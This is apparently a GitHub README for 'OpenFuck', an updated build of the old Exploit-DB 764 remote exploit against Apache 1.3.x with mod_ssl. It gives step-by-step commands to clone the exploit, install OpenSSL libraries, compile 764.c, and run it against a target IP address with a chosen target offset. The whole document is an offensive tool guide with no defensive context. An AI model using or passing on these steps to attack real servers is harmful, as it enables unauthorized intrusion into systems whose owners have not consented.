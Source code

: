 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download 764.c
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
